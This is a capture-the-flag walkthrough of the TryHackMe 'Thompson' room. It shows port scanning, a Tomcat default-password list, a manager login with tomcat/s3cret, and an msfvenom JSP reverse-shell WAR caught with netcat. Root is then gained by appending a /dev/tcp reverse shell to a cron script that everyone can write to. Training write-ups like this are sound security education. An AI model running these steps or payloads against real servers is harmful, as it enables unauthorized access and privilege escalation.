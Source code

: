 # Thompson

**Room Link:** [https://tryhackme.com/room/bsidesgtthompson](https://tryhackme.com/room/bsidesgtthompson)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





**Tomcat default passwords**

```
password   
Password1 
password1 
admin     
tomcat    
tomcat    
manager   
role1     
tomcat    
changethis
Password1 
changethis
password  
password1 
r00t      
root      
toor      
tomcat   
s3cret    
password1 
password  
admin     
changethis
```

I clicked manager app and tried some default credentials&#x20;

<figure><img src="../../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>



```
Username: tomcat
Password: s3cret
```

<figure><img src="../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>



**Kali**

<pre><code><strong>msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=1337 -f war > rshell.war
</strong>nc -lvnp 1337
</code></pre>

<figure><img src="../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a script run by root in jacks folder

**Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

The script is writable by everyone so I added a the below line to reach back to my kali.

<figure><img src="../../.gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo 'sh -i >& /dev/tcp/10.10.165.185/1338 0>&1' >> id.sh
```

**Kali**

<pre><code><strong>nc -lvnp 1338
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>





